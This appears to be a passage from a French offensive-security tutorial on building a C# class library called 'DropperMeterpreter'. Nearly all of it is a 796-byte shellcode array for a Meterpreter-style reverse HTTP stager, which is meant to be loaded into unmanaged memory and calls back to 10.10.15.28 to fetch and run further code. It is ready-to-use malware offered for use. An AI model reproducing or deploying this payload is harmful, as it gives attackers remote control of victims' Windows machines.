 Pour compiler l'assembly on va utiliser Visual Studio et Créer un nouveau projet C# de type `Bibliothèque de classes`. Voilà le code du programme qui va charger notre stager dans la mémoire non managée:

```cs
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace DropperMeterpreter
{

    public static class Globals
    {
        public static byte[] shellcode = new byte[796] { 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0x84, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0x50, 0x00, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0xeb, 0x70, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x02, 0x40, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xc3, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x74, 0xb7, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x8b, 0xff, 0xff, 0xff, 0x2f, 0x76, 0x31, 0x73, 0x42, 0x00, 0x91, 0xe4, 0x7f, 0x2c, 0x93, 0x5a, 0xf5, 0x15, 0x23, 0x10, 0xfc, 0x75, 0xf8, 0x6c, 0x52, 0xbf, 0x45, 0xb1, 0xe3, 0xf5, 0x44, 0xe7, 0x69, 0x95, 0xbd, 0x40, 0xf9, 0xdf, 0x85, 0x7b, 0xf8, 0x48, 0x89, 0x6b, 0x8c, 0x5e, 0x2b, 0x9c, 0x13, 0x33, 0x12, 0xd0, 0x3c, 0x68, 0x5a, 0xfd, 0x08, 0xd9, 0x1e, 0x72, 0xf3, 0xeb, 0x48, 0xb3, 0xbf, 0x4c, 0x4c, 0x40, 0x04, 0x47, 0x40, 0x03, 0x27, 0x4e, 0x05, 0x9c, 0xd2, 0x21, 0x28, 0x4b, 0xea, 0xb9, 0xd0, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x35, 0x2e, 0x30, 0x20, 0x28, 0x63, 0x6f, 0x6d, 0x70, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x31, 0x30, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x36, 0x2e, 0x32, 0x3b, 0x20, 0x54, 0x72, 0x69, 0x64, 0x65, 0x6e, 0x74, 0x2f, 0x36, 0x2e, 0x30, 0x3b, 0x20, 0x54, 0x6f, 0x75, 0x63, 0x68, 0x29, 0x0d, 0x0a, 0x00, 0x14, 0xe6, 0x2a, 0x4c, 0x19, 0xd4, 0x72, 0xa3, 0xaf, 0x30, 0x28, 0xa6, 0x48, 0x59, 0xe9, 0x21, 0x90, 0xf4, 0xa2, 0x8f, 0x98, 0x93, 0x43, 0x25, 0x5b, 0x28, 0x37, 0x43, 0xf4, 0xc6, 0x03, 0x7c, 0xdc, 0xde, 0x63, 0x45, 0xd4, 0xea, 0xef, 0x80, 0x23, 0x50, 0xf8, 0x69, 0x15, 0x27, 0xba, 0x3f, 0x1e, 0x8c, 0xb0, 0x17, 0xba, 0xe0, 0x0c, 0x74, 0x2c, 0x83, 0xca, 0x42, 0xe3, 0x88, 0x71, 0xfe, 0xc1, 0x74, 0x33, 0x7e, 0x55, 0x7c, 0x9c, 0x79, 0x5f, 0xf2, 0x64, 0x89, 0x54, 0x24, 0x62, 0x80, 0xb3, 0x99, 0x01, 0xbd, 0x94, 0x71, 0xbf, 0xc3, 0x6a, 0x81, 0xaf, 0x62, 0xd2, 0x23, 0xea, 0x06, 0x56, 0xe7, 0x54, 0xa5, 0xdb, 0xa0, 0x0f, 0xf6, 0x3d, 0xd1, 0x7a, 0x3e, 0x8a, 0xce, 0xd7, 0xf4, 0x6d, 0x3b, 0x4e, 0x0e, 0x85, 0x35, 0x62, 0xbc, 0x2d, 0xa4, 0xdd, 0x9b, 0x52, 0x2f, 0x69, 0x4d, 0xaf, 0x86, 0xad, 0x33, 0x96, 0x38, 0xb1, 0xfc, 0x8e, 0x4f, 0xed, 0x0c, 0xac, 0xd2, 0xe8, 0xfd, 0x67, 0x35, 0x95, 0x24, 0x1f, 0x9c, 0xef, 0x9b, 0x3b, 0x32, 0x48, 0xfe, 0xc2, 0x8a, 0x28, 0xc6, 0xa0, 0xf9, 0x9c, 0x9d, 0xbe, 0xdf, 0xd5, 0x39, 0x91, 0x39, 0xcf, 0x0f, 0xf9, 0x00, 0x05, 0x04, 0x00, 0x63, 0x69, 0x53, 0xf5, 0x84, 0xc6, 0x1e, 0x97, 0x04, 0x74, 0x0a, 0xde, 0x42, 0x15, 0xcd, 0x0f, 0xad, 0xe7, 0x3a, 0x23, 0x34, 0xfc, 0x98, 0x21, 0x82, 0x8d, 0x2d, 0xbd, 0x67, 0xd1, 0x00, 0xd0, 0xe9, 0x15, 0x90, 0xec, 0x1e, 0x66, 0x99, 0x57, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0xa9, 0xfd, 0xff, 0xff, 0x31, 0x30, 0x2e, 0x31, 0x30, 0x2e, 0x31, 0x35, 0x2e, 0x32, 0x38, 0x00, 0x3a, 0xde, 0x68, 0xb1 };
    }
```